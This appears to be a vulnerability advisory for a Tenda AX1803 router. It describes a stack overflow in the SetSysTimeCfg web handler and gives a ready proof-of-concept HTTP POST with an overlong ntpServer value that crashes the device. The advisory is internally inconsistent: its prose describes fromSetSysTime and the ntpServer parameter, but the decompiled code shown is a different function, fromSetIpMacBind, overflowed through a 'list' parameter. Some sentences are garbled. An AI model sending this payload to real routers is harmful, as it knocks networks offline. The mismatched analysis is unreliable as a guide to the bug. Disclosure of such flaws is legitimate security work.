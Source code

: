 # Tenda AX1803 v1.0.0.1_2890 Denial-of-service Vulnerability

## Overview

- Manufacturer's website infomation: https://www.tenda.com.cn/profile/contact.html
- Firmware download address: https://www.tenda.com.cn/download/default.html

## Vulnerability description

The vulnerability lies in rootfs_ In / goform / setsystimecfg of / bin / tdhttpd in ubif file system, attackers can access http://ip/goform/SetSysTimeCfg And by setting the ntpserve parameter, the stack buffer overflow can be caused to achieve the effect of router denial of service.

## Vulnerability details

**First unpack the firmware:**

Download the firmware from the manufacturer's official website（ https://www.tenda.com.cn/download/detail-3225.html ）Since the firmware is not encrypted, the Tenda ax1803 v1.0 is encrypted directly through the binwalk tool (command: binwalk - me *. Bin) 0.0.1_ Unpack the 2890 firmware to get rootfs_ UBIFS file system.

**Vulnerability analysis:**

(Note: the following code screenshot is the pseudo-C language code obtained by disassembling and decompiling the / bin / tdhttpd file in rootfs_ubifs through ida7.6_pro_32-bit)

When accessing / goform / setsystimecfg, the user will enter the fromsetsystime function for processing. The following are some pseudo code screenshots and comments of the fromsetsystime function:

![image](https://user-images.githubusercontent.com/97610822/165426822-f2ea66c7-6cee-4d9d-aa61-6af243831158.png)


![image](https://user-images.githubusercontent.com/97610822/165426845-26ab90e6-fa5c-49db-af83-5667d0743fc6.png)


![image](https://user-images.githubusercontent.com/97610822/165426892-4cb36877-5ad7-4251-aa46-d9ca0efb5d1b.png)


When users access http://ip/goform/SetSysTimeCfg Time rootfs_ ubifs  / bin / tdhttpd in will call fromsetsystime to handle this access, and will assign the ntpserver parameter submitted by the post method to the V4 pointer, and then enter an inevitable if branch (analysis has been written in the comments in the pseudo code screenshot). There is a vulnerability code in this if branch: strcpy (& V32 [16], B4). Therefore, you can override the return address of the function as invalid address by setting the ntpserver parameter submitted by V4, that is, post to overflow the boundary of V32, so as to restart the router and cause the effect of denial of service attack

Pseudo code of fromsetsystime function attached:


```
int __fastcall fromSetIpMacBind(int a1)
{
const char *Parameter; // r5
unsigned int v2; // r0
int i; // r4
char *v4; // r0
char *v5; // r11
int v6; // r3
int v7; // r5
int v8; // r2
int v10; // [sp+8h] [bp-440h]
char *nptr; // [sp+10h] [bp-438h]
int v13; // [sp+14h] [bp-434h]
char v14[32]; // [sp+28h] [bp-420h] BYREF
char v15[32]; // [sp+48h] [bp-400h] BYREF
char v16[64]; // [sp+68h] [bp-3E0h] BYREF
char v17[64]; // [sp+A8h] [bp-3A0h] BYREF
char dest[64]; // [sp+E8h] [bp-360h] BYREF
char v19[128]; // [sp+128h] [bp-320h] BYREF
char v20[128]; // [sp+1A8h] [bp-2A0h] BYREF 可以通过设置list参数通过strcpy函数溢出的
栈上变量
char s[256]; // [sp+228h] [bp-220h] BYREF
char v22[288]; // [sp+328h] [bp-120h] BYREF
memset(s, 0, sizeof(s));
memset(v16, 0, sizeof(v16));
memset(v19, 0, sizeof(v19));
nptr = GetParameter(a1, "bindnum", "0");
Parameter = GetParameter(a1, "list", &byte_1E9CC8);// 将访问
ip/goform/SetIpMacBind时post提交的list参数
// 赋值给Parameter变量
GetValue("dhcps.Staticnum", v19);
v13 = atoi(v19);
v2 = atoi(nptr);
v10 = v2;
if ( v2 > 0x20 )
{
printf("staic ip number over %d\n", 32);
goto LABEL_30;
}
for ( i = 1; ; ++i )
{
v6 = Parameter;
if ( Parameter )
v6 = 1;
if ( i > v10 )
v6 = 0;
if ( !v6 )
break;
memset(v20, 0, sizeof(v20));
memset(v17, 0, sizeof(v17));
memset(v22, 0, 0x80u);
memset(v14, 0, sizeof(v14));
memset(v15, 0, sizeof(v15));
memset(dest, 0, sizeof(dest));
v4 = strchr(Parameter, '\n'); // 如果parameter也就是post提交的
list参数中存在换行符，则v4不为零，否则v4为零。
v5 = v4;
if ( v4 ) // v4不为零，也就是提交的list参数中存
在换行符
{
*v4 = 0;
strcpy(v20, Parameter); // 该处strcpy未检验v20边界，故可以通
过Parameter参数来溢出v20的边界以覆盖该函数的返回值，造成设备重启并且达到拒绝服务攻击。
Parameter = v5 + 1;
}
else // v4为零，也就是提交的list参数中无换
行符
{
strcpy(v20, Parameter); // 该处strcpy未检验v20边界，故可以通
过Parameter参数来溢出v20的边界以覆盖该函数的返回值，造成设备重启并且达到拒绝服务攻击。
}
if ( v20[0] == 13 )
{
if ( _isoc99_sscanf(&v20[1], "%17[0-9a-fA-F:]\r%s", v14) != 2 )
goto LABEL_20;
strcpy(dest, &byte_1E9CC8);
}
else if ( _isoc99_sscanf(v20, "%[^\r]\r%[0-9a-fA-F:]\r%s", dest) != 3 )
{
LABEL_20:
v2 = puts("get ip and mac error!");
v6 = 1;
break;
}
printf("%s %d# dev_name=%s,mac_addr=%s,ip_addr=%s\n", "set_mac_bind_list",
543, dest, v14, v15);
sprintf(v17, "dhcps.Staticip%d", i);
sprintf(v22, "%s;%s;0", v15, v14);
v2 = SetValue(v17, v22);
if ( dest[0] )
{
memset(v17, 0, sizeof(v17));
memset(v22, 0, 0x80u);
v2 = sub_62C98(dest, v14);
}
}
v7 = v10 + 1;
if ( i == v10 + 1 )
{
if ( !v6 )
{
puts("set static num sucess!");
v2 = SetValue("dhcps.Staticnum", nptr);
while ( v7 <= v13 )
{
memset(v19, 0, sizeof(v19));
sprintf(v16, "dhcps.Staticip%d", v7);
GetValue(v16, v19);
sprintf(v16, "dhcps.Staticip%d", v7++);
v2 = SetValue(v16, &byte_1E9CC8);
}
goto LABEL_27;
}
LABEL_30:
v8 = 1;
goto LABEL_31;
}
if ( v6 )
goto LABEL_30;
LABEL_27:
if ( sub_8CB38(v2) )
{
memset(v22, 0, 0x100u);
strcpy(v22, "op=200");
send_msg_to_netctrl(19, v22);
}
v8 = 0;
LABEL_31:
sprintf(s, "{\"errCode\":%d}", v8);
return sub_55970(a1, s);
}
```

## POC
```
POST /goform/SetSysTimeCfg HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=bb507bf3973a97a9bf1267699f712550bkcmji
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
ntpServer=a*num
```
(Note: num needs to be greater than 0x134h bytes, that is, if the number of characters to be sent is greater than 0x134h, DoS attack can be caused)










